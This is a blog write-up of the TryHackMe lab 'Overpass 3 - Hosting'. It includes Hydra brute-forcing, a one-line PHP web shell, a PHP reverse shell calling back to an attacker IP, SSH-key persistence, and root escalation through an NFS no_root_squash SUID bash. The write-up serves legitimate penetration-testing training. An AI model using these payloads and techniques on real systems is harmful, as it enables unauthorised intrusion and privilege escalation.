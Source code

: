 ```yaml
---
layout: post
title:  "THM: Overpass 3 - Hosting"
date:   2021-01-14 21:30:00 +1100
category: hacking
---
```


## Overpass3
*You know them, you love them, your favourite group of broke computer science students have another business venture! Show them that they probably should hire someone for security...*

This is [Overpass 3 - Hosting](https://tryhackme.com/room/overpass3hosting) from THM. It's medium rated. I add *overpass3* to /etc/hosts.

## Ports
We've got FTP, SSH and HTTP on the standard ports.

## FTP
No anonymous access, we'll move on for now.

## HTTP
I started trying [dirsearch](https://github.com/maurosoria/dirsearch) and I must say it's pretty comfy:

``
root@kali:/opt/tryhackme/overpass3# python3 /opt/dirsearch/dirsearch.py -u http://overpass3
``

It comes with it's own wordlist (although you can use any), and it finds something useful:

>[05:22:59] 301 -  233B  - /backups  ->  http://overpass3/backups/  
[05:23:00] 200 -  894B  - /backups/

From there, we get a file called *backup.zip*, which is not password protected and which contains two files:

 >12K -rw-r--r--  1 root  root  11K Nov  8 16:18 CustomerDetails.xlsx.gpg  
4.0K -rw-------  1 root  root 3.5K Nov  8 16:16 priv.key

This is PGP stuff:

{% highlight shell %}
root@kali:/opt/tryhackme/overpass3/temporary# gpg --import priv.key
gpg: key C9AE71AB3180BC08: "Paradox <paradox@overpass.thm>" not changed
gpg: key C9AE71AB3180BC08: secret key imported
gpg: Total number processed: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1
root@kali:/opt/tryhackme/overpass3/temporary# gpg --decrypt CustomerDetails.xlsx.gpg > details.xlsx
gpg: encrypted with 2048-bit RSA key, ID 9E86A1C63FB96335, created 2020-11-08
      "Paradox <paradox@overpass.thm>"
{% endhighlight %}

This gets us an Excel file containing 3 usernames and passwords.

### Hydra
Which service to use this on? We can try them both:

{% highlight shell %}
root@kali:/opt/tryhackme/overpass3# hydra -L users.txt -P pass.txt ftp://overpass3
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-14 05:31:48
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ftp://overpass3:21/
[21][ftp] host: overpass3   login: paradox   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-14 05:31:53
root@kali:/opt/tryhackme/overpass3# hydra -L users.txt -P pass.txt ssh://overpass3
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-14 05:32:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ssh://overpass3:22/
[ERROR] target ssh://10.10.188.216:22/ does not support password authentication (method reply 36).
{% endhighlight %}

Right, so we can log in to FTP, but SSH is key based only. Goodo.

## FTP, again
We log in to FTP and we get the root of the webserver. A little testing shows we can upload to this directory, so I upload something simple in a file called *cmd.php*:

{% highlight php %}
<?php system($_GET['cmd']);?>
{% endhighlight %}

And I send it this from Burpsuite:

``
cmd=php+-r+'$sock%3dfsockopen("10.9.10.123",1234)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b'
``

to get a shell. 

## Apache
The host is running CentOS and we are the Apache user. We don't seem to have *which*; no matter.

{% highlight shell %}
sh-4.4$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
sh-4.4$ which python3
which python3
which: no python3 in ((null))
sh-4.4$ ls /usr/bin | grep python
ls /usr/bin | grep python
python3
python3.6
python3.6m
unversioned-python
sh-4.4$ /usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash");'
/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash");'
bash-4.4$ 
{% endhighlight %}

From bash, we can **su** to *paradox* using the same password as for the FTP account. He has a *.ssh* directory in his home, and we can add our key to his *authorized_keys* file to get SSH access:

{% highlight shell %}
[paradox@localhost .ssh]$ printf 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCeyp%%AND THE REST OF MY PUBLIC KEY%%/orR1AjlnSE= root@kali\n' >> authorized_keys
{% endhighlight %}

Now we can just do:

{% highlight shell %}
root@kali:/opt/tryhackme/overpass3# ssh paradox@overpass3  
Last login: Thu Jan 14 10:40:45 2021
[paradox@localhost ~]$ 
{% endhighlight %}

## James
As *paradox* I run *linpeas*, which finds this in */etc/exports*:

>/home/james *(rw,fsid=0,sync,no_root_squash,insecure)

However thinking back we had no port 2049, so NFS is only open on the localhost. We can't mount the share on this host, because we aren't root. Hmm.

### SSH Tunnel
We can mount the share using an SSH tunnel on our local machine. First, we set up the tunnel:

``
root@kali:/opt/tryhackme/overpass3# ssh -L 3049:127.0.0.1:2049 paradox@overpass3
``

Next, we mount the share:

``
root@kali:/opt/tryhackme/overpass3# mount -t nfs -o port=3049,vers=4 127.0.0.1:/ ./mnt
``

Where *./mnt* was a local folder I'd created. Note this syntax caused me quite a few headaches; particularly the path part - NFS4 is different to NFS3 and the shared path is considered **/** when you mount it.

From there, we could get the user flag:

{% highlight shell %}
root@kali:/opt/tryhackme/overpass3/mnt# ls -lash
total 20K
   0 drwx------ 3 james kali  112 Nov 17 16:15 .
4.0K drwxr-xr-x 5 root  root 4.0K Jan 13 05:48 ..
   0 lrwxrwxrwx 1 root  root    9 Nov  8 16:45 .bash_history -> /dev/null
4.0K -rw-r--r-- 1 james kali   18 Nov  8  2019 .bash_logout
4.0K -rw-r--r-- 1 james kali  141 Nov  8  2019 .bash_profile
4.0K -rw-r--r-- 1 james kali  312 Nov  8  2019 .bashrc
   0 drwx------ 2 james kali   61 Nov  7 21:20 .ssh
4.0K -rw------- 1 james kali   38 Nov 17 16:15 user.flag
{% endhighlight %}

Note there was also a web flag belonging to Apache; it was in the home directory for the *apache* user. We can find that by looking in */etc/passwd*; it's */usr/share/httpd*. Anyway, onwards ...

## Root
Privesc was now a fairly classic NFS technique - make a copy of bash in our mounted drive and give it the SUID bit:

{% highlight shell %}
root@kali:/opt/tryhackme/overpass3/mnt# cp /bin/bash .
root@kali:/opt/tryhackme/overpass3/mnt# chmod +s bash
{% endhighlight %}

Doesn't look like much, does it? While I'm at it, I add my SSH public key to the *authorized_keys* file for *james* just like I did for *paradox*. 

Separately:

{% highlight shell %}
root@kali:/opt/tryhackme/overpass3# ssh james@overpass3
Last login: Thu Jan 14 09:15:57 2021 from 10.9.10.123
[james@localhost ~]$ pwd
/home/james
[james@localhost ~]$ ls -lash
total 1.2M
   0 drwx------. 4 james james  138 Jan 14 10:14 .
   0 drwxr-xr-x. 4 root  root    34 Nov  8 19:34 ..
1.2M -rwsr-sr-x  1 root  root  1.2M Jan 14 10:14 bash
   0 lrwxrwxrwx. 1 root  root     9 Nov  8 21:45 .bash_history -> /dev/null
4.0K -rw-r--r--. 1 james james   18 Nov  8  2019 .bash_logout
4.0K -rw-r--r--. 1 james james  141 Nov  8  2019 .bash_profile
4.0K -rw-r--r--. 1 james james  312 Nov  8  2019 .bashrc
   0 drwx------  2 james james   44 Jan 14 09:17 .gnupg
   0 drwx------. 2 james james   61 Nov  8 02:20 .ssh
4.0K -rw-------. 1 james james   38 Nov 17 21:15 user.flag
[james@localhost ~]$ ./bash -p
./bash: /lib64/libtinfo.so.6: no version information available (required by ./bash)
bash-5.1# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),1000(james)
bash-5.1#
{% endhighlight %}

And that was that.

## Footnote
I haven't written anything for a bit; I've been trying (and failing) on EnterPrize, a new hard box on THM. I've enumerated the box, found the hidden subdomain (maintest.enterprize.thm) and poked around. It's *typo3*, and I am fairly sure the exploit is a PHP deserialization as described [here](https://www.synacktiv.com/en/publications/typo3-leak-to-remote-code-execution.html) using a leaked encryptionKey, which can be found on the box and which I have. However I have tried the exploit as described and so far I can't get it to work. Ah well, it's kept me entertained anyway.
